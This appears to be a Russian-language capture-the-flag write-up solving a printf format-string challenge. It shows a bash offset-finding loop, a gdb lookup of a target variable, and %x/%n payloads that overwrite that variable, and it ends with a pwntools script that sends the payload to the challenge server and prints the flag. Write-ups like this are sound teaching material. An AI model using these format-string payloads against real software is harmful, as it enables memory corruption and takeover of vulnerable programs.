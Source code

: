 # not my format writeup

Нам дан код на C и скомпилированный ELF-файл. Изучив код можно понять, что уязвимость заложена в функцию printf(), она связана с форматированием строки. Простыми словами, будем передавать ей аргументы, которых нет - таким образом программа будет вычитывать стэк.

###  Ищем пэйлоад

Будем передавать строку нашей программе таким образом `python -c "print 'AAAA' + '%x.'*OFFSET + '%x'" | ./not_my_format` постоянно меняя OFFSET. Чтобы не делать это руками - напишем простой скрипт на bash:

```bash
offset_finder.sh

#!/bin/bash

for ((test=0; test<=30; test++)); do
    output=$(python -c "print 'AAAA' + '%x.'*$test + '%x'" | ./not_my_format | grep "41414141")
    if [ -n "$output" ]; then
        echo "Найдена строка '41414141' для теста $test"
	echo "$output"
    fi
done
```

Теперь узнаем адрес нашей переменной `changeme`, которую нужно поменять для получения флага, а именно сделать ее равной 69.
```bash
gdb: print &changeme
```

В консоли отправляем следующий пэйлоад, в котором уже указан адрес нужной переменной:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*6 + '%n'" | ./not_my_format`

Рядом со строкой `No way...` появилось число, этло значение changeme. 

Теперь считаем, сколько нужно добавить до 69 и модифицируем пэйлоад:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%28d' + '%n'" | ./not_my_format`

Отлично, все работает, теперь сделаем то же самое на сервере, где запущен настоящий файл.

Пишем скрипт:

```python
from pwn import *

conn = remote('IP', PORT)

payload = '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%28d' + '%n'

conn.sendline(payload)
print(conn.recv()) 
print(conn.recv())
```

Запускаем и получаем флаг **kxctf{f0rm4t1ng_str1ng_1s_aw3s0me_bruh_1m_pr0ud_0f_u_ma_b0y_<3}**


